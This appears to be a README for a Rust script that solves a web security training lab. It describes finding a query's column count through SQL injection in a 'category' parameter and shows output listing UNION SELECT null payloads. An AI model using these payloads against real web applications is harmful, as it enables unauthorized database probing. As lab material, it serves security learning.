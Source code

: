 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
🗹 Check your browser, it should be marked now as solved
```
